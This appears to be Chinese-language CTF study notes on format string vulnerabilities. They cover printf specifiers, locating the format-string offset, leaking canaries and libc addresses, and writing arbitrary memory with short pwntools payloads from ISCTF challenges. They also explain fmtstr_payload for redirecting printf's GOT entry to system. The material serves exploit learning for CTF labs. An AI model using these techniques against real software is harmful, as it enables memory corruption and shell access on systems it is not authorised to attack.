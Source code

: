 ## 格式化字符串

常用的字符串

%n—将n之前打印出来的字符个数赋值给一个变量

%x—输出不带0x的16进制数

%p—输出带0x的16进制数

%s—指向字符串首地址，输出整个字符串

```python
%x 输出不带0x的16进制数，只能打印4字节，一般只用于32位
%p 打印目标地址，建议32位和64位都用这个
%s 打印地址内容
%c 打印单个字符
%hhn 写一字节
%hn  写两字节
%n   将n之前打印出来的字符个数赋值给一个变量
%ln  32位写四字节，64位写八字节
%lln 写八字节
```

### 读取任意地址

如泄露Canary的地址

常用的确定格式化字符串是第几个参数的方式 `aaaaaaaa-%p-%p-%p-%p-%p-%p`然后找到后面`0x61616161`的那一串，数之间的偏移即可以找到格式化字符串的偏移

然后再去计算canary和缓冲区之间的字节数（8字节一个数据），最后加上之前算到的格式化字符串的偏移，就可以用来泄露canary的地址



拿ISCTF的fries为例，str的起始地址 : ("%8$p")，然后gdb可以看到一些可以利用的地址，比如可以用48处的puts泄露libc，可以泄露canary和rbp，泄露地址方式为
$$
\%[（泄露地址-输入点地址）/ 8  + str的偏移]$p
$$
![c2b18102092a1ec8cae73443753e73c6](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2023-12\Ori\c2b18102092a1ec8cae73443753e73c6.png)

其他在栈上的地址同理泄露，再利用libc等方式做题



### 写入任意地址  `addr%num$n`

**一般用来改写got中的函数地址，从而调用函数的时候拿到shell**

在ISCTF的fmt上用到了，其中要求v1等于18，v2=52

`%Yc%X$n`: 将Y写入栈上第X个位置指针指向的位置   

```python
#%8$p和%9$p处分别指向v1,v2
b'%18c%8$n'#填充18个字符，最后给v1赋值18
b'%34c%9$n'#继续填充34个字符，一共52个字符，赋值给v2为52
```





### 覆盖内存地址 

例如：要求改写c的值为16，已经给了c的地址，且找出了格式化字符串的偏移为6

```python
payload = p32(c_addr) + b'%12c' + b'%6$n'
```

把c的地址写入栈，32位占4字节，然后再填充12个字节，最后%6$n给c赋值16





### 一些工具

另外还看了下`FmtStr`类和`fmtstr_payload`函数

函数详情：这是专门为**32位**程序格式化字符串漏洞输出payload的一个函数

```python
fmtstr_payload(offset,writes,numbwritten=0,write_size=‘byte’)
```

- 第一个参数表示格式化字符串的偏移
- 第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将`printf`的GOT数据改为system函数地址，就写成`{printfGOT:systemAddress}`；
- 第三个参数表示已经输出的字符个数
- 第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着`hhn`、`hn`和`n`，默认值是byte，即按`hhn`写

类详情：

```python
FmtStr(execute_fmt, offset=None, padlen=0, numbwritten=0)
```

- `execute_fmt`：与漏洞进程交互的函数
- `offset`：控制的第一个格式化程序的偏移
- `padlen`：在payload前添加的填充大小
- `numbwritten`：已经写入的字节数



还有一个是和`gdb`共存的工具`fmtarg`,可以直接算出指定地址的格式化字符串偏移![3f15853f8ce3f4e83b41e84e6a310779](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2023-12\Ori\3f15853f8ce3f4e83b41e84e6a310779.png)

